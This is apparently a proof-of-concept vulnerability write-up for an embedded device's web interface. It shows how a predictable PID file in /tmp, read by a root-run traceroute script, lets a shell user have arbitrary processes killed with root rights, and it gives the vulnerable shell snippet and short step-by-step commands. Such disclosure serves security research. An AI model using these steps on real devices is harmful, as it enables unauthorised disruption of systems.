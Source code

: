 # Kill Processes as Root

This document describes how a user with access to the shell and to the
web interface is able to kill processes with root rights.

## Description

The web interface allows the execution of traceroute and ping. Both processes
are run by root? (to be verified). To block multiple executions of ping
and traceroute a PID file is created.

PID file for Traceroute: `/tmp/Traceroute_Device.IP.Diagnostics.TraceRoute`

If the user starts a new traceroute from the web the `/etc/ah/Traceroute.sh`
will be called. One of the first lines states:

```sh
[ -e /tmp/Traceroute_${obj}.pid ] && for pid in `cat /tmp/Traceroute_${obj}.pid`;
  do kill $pid;
done;
rm /tmp/Traceroute_${obj}.pid;
killall traceroute;
```

We now know all PID's in the file will be killed (as well as all other
traceroute processes) but the important part:
*This PID file doesn't exist on startup* so if you create it on your own you can
fill it with whatever PID's you want.

## Steps

 1. Get shell access (see [Escape from CLISH](/poc/escape_clish))
 2. `PIDFILE=/tmp/Traceroute_Device.IP.Diagnostics.TraceRoute`
 3. Choose which process you want to kill
   * List processes with `ps` (aux not needed ;)
   * `PIDS="1234 2345"`
 4. `ls $PIDFILE`
   * Reboot if the file exists and start from the beginning.
     (Exit shell and type `reboot`)
 5. Create file
   * `echo "$PIDS">$PIDFILE`
 6. Start traceroute to random host from web interface
 7. ????
 8. PROFIT!!!
